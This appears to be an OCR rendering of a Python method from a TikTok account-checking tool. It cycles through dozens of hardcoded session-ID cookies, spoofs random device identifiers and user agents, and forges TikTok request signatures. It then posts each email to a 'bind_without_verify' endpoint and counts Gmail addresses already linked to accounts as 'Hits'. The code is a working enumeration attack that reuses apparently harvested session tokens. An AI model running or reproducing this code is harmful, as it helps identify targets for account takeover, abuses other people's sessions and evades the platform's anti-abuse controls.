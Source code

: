     def API_CH(self , email ):
        cookies ={
            "passport_csrf_token": self.secret,
            "passport_csrf_token_default": self.secret,
            "sessionid":random.choice([
                'a16fa6c5be204caeef3e2db9abf7e54a',
'4c555f3897daeeaec5d33075aac6e7a5',
'9ef5dd91a967ac5eb3deaa8e78adf7d4',
'd08e27df2c75af9276fc4b0f60d72d19',
'df395f8ac47b3db8e9a8f899ac5937d3',
'46a8ef281a146aa734c5527148003fe5',
'7001dc2643f83cf6e72def00fbccfc6f',
'5081bf0f8e54a1dd28629a50ae0b0e01',
'3100e89c7b0d70e8a0f41233b28a769c',
'8d7571beb5a4285e6bccfa4cc6a4d502',
'd670e72823c751079017ca9a3b21020c',
'fd61effb1d65a1b01c820361d8228c7c',
'b6acb99c05b13b9ff866c26ee64a8fa8',
'4f761f08a724692c9ecb5e7fc54cbea3',
'2747f4c3d1f3b922f7b86dcd546af8d7',
'cd4489ef3fe23ddc68ad4454c9cabc41',
'5a0d6b2ca82d8824852148c22e146910',
'2ad32b398e15e80e443f922ab4928447',
'5a4a4c8c746d55a3cae7f32a127513aa',
'f4ea0fc94454b6a47fafb09a00aeb0e8',
'6bf28abdc354288b73bf99008f6a361f',
'df7246019b382003c7d438e2eec3f812',
'f4fd0301c875e5a5da06c14fd136934c',
'20f03a3785cbab1d1f242c50a8b2ef21',
'93bf67de66b6ddff3a75c3aec78e7276',
'0428ad14102a079e02df973ef9c3ca34',
'a7a6042fd8bb7aa59496346d9646e46f',
'525d663adcec79b1601cdfa2125627dc',
'8100a904b508f86fa19c3b3a2146a979',
'd972be2b916d7cb7a3e2c534dac73439',
'30c2b94bf3ddd98952a6f28137250375',
'fd4cd15633d1ebceccc492d509a9522b',
'648c1df7cef3ed3bd814c932939ce846',
'0f2d6256d2252a5cecd575b76009e8c2',
'bb4cef9ef619cb46f0a45c308c0d1e25',
'278b94bbb57a92ff23d92c5c52e1d57e',
'59317ae149b292fa766df9b805d4012e',
'40035d852d85c40b180d5154dce74e32',
'572670e81c97c6b16e081ee0243883b5',
'8a53b9f0b2ad46141f3ef206170ea95f',
'e54ae478d3928c1980661d3dcc81127e',
'cec657d01305d24d62ead1ebca1ea0de',
'1aa7da779bfb34e9adcda9d330242347',
'0727771a119768c35ddad138ae669ccb',
'b394eaa0f2376832f1e65701406872b4',
'1fc1c3d992d806afbb88fb05b3f8b51b',
'56e02966f4761a361a575db0a32ba2f7',
'978573dbd8fb062130305da932016754',
'466efa18c526a080549b97f03305a3a9',
'1f7b16535d0c8f91d1b0f0d4291726c7',
'c5a5d59db6c74831c598bbacee8ad25a',
'2b052a3a01222be0da70fd2849f6f849',
'18c9b9a235c938b34c1f8c5af3c65eb3',
'847ce0bac8342d7e63798419c0958268',
'08d0463c3ea0a3c7ef8f6a8e2e341528',
'138b138be22630bb46a0dd4d747dc037',
'6f8fd20e4cfb6af8d68e38284f732269',
'266d4adf7a9741e20386d77215fe1e1c',
'f76100b0c36e12ceec7dfedebb50f967',

            ])
            }
        self.ses.cookies.update(cookies)
        device_brands = ["samsung", "huawei", "xiaomi", "apple", "oneplus"]
        device_types = ["SM-S928B", "P40", "Mi 11", "iPhone12,1", "OnePlus9"]
        regions = ["AE", "IQ", "US", "FR", "DE"]
        languages = ["en"]
        paramss = {
        'passport-sdk-version': "6030790",
        'iid': str(random.randint(1, 10**19)),
        'device_id': str(random.randint(1, 10**19)),
        'ac': "WIFI",
        'channel': "googleplay",
        'aid': "1233",
        'app_name': "musical_ly",
        'version_code': "360505",
        'version_name': "36.5.5",
        'device_platform': "android",
        'os': "android",
        'ab_version': "36.5.5",
        'ssmix': "a",
        'device_type': random.choice(device_types),
        'device_brand': random.choice(device_brands),
        'language': random.choice(languages),
        'os_api': str(random.randint(28, 34)),
        'os_version': str(random.randint(10, 14)),
        'openudid': str(binascii.hexlify(urandom(8)).decode()),
        'manifest_version_code': "2023605050",
        'resolution': "1440*2969",
        'dpi': str(random.choice([420, 480, 532])),
        'update_version_code': "2023605050",
        '_rticket': str(round(random.uniform(1.2, 1.6) * 100000000) * -1) + "4632",
        'is_pad': "0",
        'app_type': "normal",
        'sys_region': random.choice(regions),
        'last_install_time': str(random.randint(1600000000, 1700000000)),
        'mcc_mnc': "41820",
        'timezone_name': "Asia/Baghdad",
        'carrier_region_v2': "418",
        'app_language': random.choice(languages),
        'carrier_region': random.choice(regions),
        'ac2': "wifi",
        'uoo': "0",
        'op_region': random.choice(regions),
        'timezone_offset': str(random.randint(0, 14400)),
        'build_number': "36.5.5",
        'host_abi': "arm64-v8a",
        'locale': random.choice(languages),
        'region': random.choice(regions),
        'ts': str(round(random.uniform(1.2, 1.6) * 100000000) * -1),
        'cdid': str(uuid.uuid4()),
        'support_webview': "1",
        'reg_store_region': random.choice(regions).lower(),
        'user_selected_region': "0",
        'cront_version': "1c651b66_2024-08-30",
        'ttnet_version': "4.2.195.8-tiktok",
        'use_store_region_cookie': "1",
        'ab_version':'37.8.5'
        }
        
        params = {'_rticket': str(round(random.uniform(1.2, 1.6) * 100000000) * -1) + "4632",    'cdid': str(uuid.uuid4()),'ts': str(round(random.uniform(1.2, 1.6) * 100000000) * -1),    'iid': str(random.randint(1, 10**19)),    'device_id': str(random.randint(1, 10**19)),    'openudid': str(binascii.hexlify(urandom(8)).decode())}
        _rticket = params["_rticket"]
        device_id = params["device_id"]
        iid = params["iid"]
        cdid = params["cdid"]
        openudid = params["openudid"]
        _rticket = params["_rticket"]
        ts = params["ts"]
        params={'_rticket':_rticket,'ab_version':'37.8.5','ac':'WIFI','ac2':'wifi','aid':'1233','app_language':'ar','app_name':'musical_ly','app_type':'normal','build_number':'37.8.5','carrier_region':'US','carrier_region_v2':'460','cdid':cdid,'channel':'googleplay','cronet_version':'75b93580_2024-11-28','device_brand':'rockchip','device_id':device_id,'device_platform':'android','device_type':'rk3588s_q','dpi':'320','fixed_mix_mode':'1','host_abi':'arm64-v8a','iid':iid,'is_pad':'0','language':'ar','last_install_time':'1745162892','locale':'ar','manifest_version_code':'2023708050','mix_mode':'1','op_region':'US','openudid':openudid,'os':'android','os_api':'29','os_version':'10','region':'IQ','request_tag_from':'h5','resolution':'720%2A1280','rrb':'%7B%7D','scene':'4','ssmix':'a','support_webview':'1','sys_region':'IQ','timezone_name':'Europe%2FAmsterdam','timezone_offset':'3600','ts':'1745163105','ttnet_version':'4.2.210.6-tiktok','uoo':'0','update_version_code':'2023708050','use_store_region_cookie':'1','version_code':'370805','version_name':'37.8.5','app_version':'32.9.5'}
        device_type = params["device_type"]
        app_name = "com.zhiliaoapp.musically"
        app_version = f"{random.randint(2000000000, 3000000000)}"
        platform = "Linux"
        os = f"Android {random.randint(10, 15)}"
        locales = ["ar_AE", "en_US", "fr_FR", "es_ES"]
        locale = random.choice(locales)
        device_types = ["phone", "tablet", "tv"]
        device_type = random.choice(device_types)
        build = f"UP1A.{random.randint(200000000, 300000000)}"
        cronet_version = f"{random.randint(10000000, 20000000)}"
        cronet_date = f"{random.randint(2023, 2025)}-{random.randint(1, 12):02}-{random.randint(1, 28):02}"
        quic_version = f"{random.randint(10000000, 20000000)}"
        quic_date = f"{random.randint(2023, 2025)}-{random.randint(1, 12):02}-{random.randint(1, 28):02}"
        user_agent = (f"{app_name}/{app_version} ({platform}; U; {os}; {locale}; {device_type}; "
                    f"Build/{build}; Cronet/{cronet_version} {cronet_date}; "
                    f"QuicVersion:{quic_version} {quic_date})")

        m=self. signn(urlencode(params), '', "AadCFwpTyztA5j9L" + ''.join(secrets.choice(string.ascii_letters + string.digits) for _ in range(9)), None, 1233)
        headers = {
        'User-Agent': user_agent,
        'x-tt-passport-csrf-token': self. secret,
        'content-type': "application/x-www-form-urlencoded; charset=UTF-8",
        'x-argus': m["x-argus"],
        'x-gorgon': m["x-gorgon"],
        'x-khronos': m["x-khronos"],
        'x-ladon': m["x-ladon"]
        }
        try:
            url="https://api16-normal-c-alisg.tiktokv.com/passport/email/bind_without_verify/?passport-sdk-version=0&app_language=en&"
            #url='https://api31-normal-useast1a.tiktokv.com/passport/email/bind'
            res = requests. post(url, params=params, headers=headers,data={"email":email},cookies=cookies).text
            #  print (res)

            if 'Email is linked to another account. Unlink or try another email.'in res:
                if "@gmail.com"in email:
                    self. check_email(email)          
                    self.gt+=1
                    sys.stdout.write(f"\r[Dev: Ethan] Hits : {M}{self.ge} | False: {M}{self.bt} | No: {M}{self.be}")
                    sys.stdout.flush()      

            else:
                if "@gmail.com"in email:          
                    self.bt+=1
                    sys.stdout.write(f"\r[Dev: Ethan] Hits : {M}{self.ge} | False: {M}{self.bt} | No: {M}{self.be}")
                    sys.stdout.flush()         
        except:
            pass
